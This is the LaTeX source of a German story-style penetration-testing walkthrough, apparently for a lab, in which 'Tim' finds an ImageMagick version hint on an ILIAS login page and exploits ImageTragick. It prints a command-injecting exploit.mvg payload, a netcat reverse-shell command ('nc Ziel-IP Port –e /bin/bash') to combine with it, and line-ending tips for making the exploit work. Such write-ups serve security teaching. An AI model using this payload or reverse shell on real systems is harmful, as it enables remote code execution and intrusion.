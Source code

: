 \documentclass[10pt, a4paper,onecolumn ,titlepage]{article}
\begin{document}
    Komplett vertieft will Tim sich direkt mit den Credentials einloggen.
    Als er die Login-Seite kurz überfliegt, fallen ihm die Wort \textit{using ImageMagic(v6.9.3-8)} direkt auf.
    \begin{figure}[H]
        \centering
        \includegraphics[width=1\textwidth]{storyline_bilder_vm2/loginPageHinweisImageMagick}
        \caption{Login Page ILIAS zeigt Hinweis auf eingebundene ImageMagick Version}
        \label{fig:loginPageHinweis}
    \end{figure}

    \noindent
    Er hatte vor kurzem etwas über ImageTragick gelesen.
    Und wie so oft, bietet \href{https://www.exploit-db.com/exploits/39767}{\textbf{exlpoit-db}} direkt die richtigen Informationen.

    \vspace{0.4cm}
    \begin{lstlisting}[label={lst:imageMagickExploit}]
        exploit.mvg
        -=-=-=-=-=-=-=-=-
        push graphic-context
        viewbox 0 0 640 480
        fill 'url(https://example.com/image.jpg"|ls "-la)'
        pop graphic-context
    \end{lstlisting}~\parencite{imagemagickExploit}
    \vspace{0.3cm}
    \\
    Dieser Exploit zeigt nach dem Ausführen eine Liste aller Dateien und Verzeichnisse im aktuellen Verzeichnis als Profilbild an.
    Das ist Tim jedoch nicht genug, er möchte eine Reverse Shell.
    Hacking \textcite{reverseShell} zeigt ein Beispiel für eine Netcat Reverse Shell: \textit{nc Ziel-IP Port –e /bin/bash}.
    Es gilt abschließend den in~\ref{lst:imageMagickExploit} beschriebene Exploit um die Netcat Reverse Shell ergänzen.
    Dass der Exploit ausgeführt wird, ist darauf zurückzuführen, dass ImageMagick versucht das Dateiformat anhand des Inhalts festzustellen.
    Beim Erstellen des Exploits gilt es zu beachten, dass es sich bei dem Zielserver um einen Linux System handelt, welches nur unix Linebreaks versteht.
    Jedes in Windows geöffnete oder erstellt Datei muss demnach vorher umgewandelt werden, da der Exploit sonst fehlschlagen wird.
    Um das zu erreichen, helfen Tools wie Notepad++ oder das Kommandozeilenprogramm dos2unix:
    \begin{enumerate}[leftmargin=2.5cm]
        \item[1.] Datei in Notepad++ öffnen --> Menüpunkt \textit{Bearbeiten} auswählen --> \textit{EOL-Konvertierung} wählen --> \textit{Unix(LF)}.
        \item[2.] Oder \textit{dos2unix filename.txt} in die Kommandozeile eingeben.
        Es gilt zu Beachten, dass nicht jedes System dos2unix unterstützt.
    \end{enumerate}
\end{document}
